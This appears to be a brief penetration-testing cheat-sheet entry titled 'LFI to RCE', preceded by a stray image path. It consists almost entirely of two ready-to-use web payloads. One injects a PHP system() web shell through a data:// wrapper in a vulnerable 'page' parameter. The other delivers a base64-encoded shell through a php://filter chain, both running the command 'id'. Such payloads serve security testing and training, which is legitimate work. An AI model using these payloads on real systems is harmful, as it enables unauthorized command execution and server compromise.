 ***
### LFI to RCE
Simple case in which LFI can be leveraged for RCE
```
http://example/file.php?page=data://plain/text,<?php system($_GET['cmd']); ?><&cmd=id
```
Also you can test base64 encoding
```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=id
```